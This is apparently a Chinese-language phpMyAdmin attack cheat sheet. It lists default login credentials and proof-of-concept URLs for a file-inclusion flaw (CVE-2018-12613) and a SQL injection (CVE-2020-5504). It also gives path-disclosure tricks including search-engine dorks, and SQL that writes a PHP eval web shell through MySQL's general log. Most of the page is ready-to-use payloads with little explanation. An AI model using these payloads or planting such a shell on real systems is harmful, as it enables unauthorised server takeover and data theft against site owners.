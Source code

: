 ```yaml
---
title: phpMyAdmin
---
```


## 应用简介
phpMyAdmin是MySQL管理工具

## 默认密码

> 默认 phpMyAdmin：用户名 root、密码 root 或空登陆
> 版本 2.11.3～2.11.4：用户名 'localhost'@'@" 登陆，无需密码
> 版本 2.11.9.2：用户名 root 登陆，无需密码

## [CVE-2018-12613]-远程文件包含

**漏洞概述**
```http
#影响范围
4.8.0
4.8.1
```

**漏洞利用**

POC

```http
http://127.0.0.1/phpMyAdmin-4.8.0/index.php?target=db_sql.php%253f/../../../../../../../../../../../../../../../../../../../../../../../phpStudy/PHPTutorial/WWW/phpinfo.php
```

遇到该漏洞,可以考虑自己写一个shell,然后去包含自己的sessionid来实现getshell

## [CVE-2020-5504]-后台SQL注入

**漏洞概述**

```http
#影响范围
<= 5.00
```

**漏洞利用**

POC

```http
http://127.0.0.1/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

## php爆绝对路径

单引号爆路径

```http
xx.php?id=1'
```

错误参数值爆路径

```http
xxx.php?id=-1
```

Google爆路径

```http
Site:xxx.edu "warning"
Site:xxx.com "fatal error"
```

测试文件爆路径

```http
test.php
ceshi.php
info.php
phpinfo.php
php_info.php
1.php
```

phpmyadmin爆路径

```http
/phpMyAdmin/index.php?lang[]=1
/phpmyadmin/themes/darkblue_orange/layout.inc.php

/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

配置文件找路径

```bash
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

nginx文件类型错误解析爆路径

```http
www.xxx.com/xx.jpg/x.php
```

## phpMyAdmin利用日志写shell

```sql
set global general_log='on'      
--开启日志

set global  general_log_file ="C:/phpStudy/PHPTutorial/WWW/shell.php"
--日志写入的文件

select "<?php eval($_POST['x'])?>"
--执行带有一句话的sql语句
```

其它写shell方法也和mysql写shell一样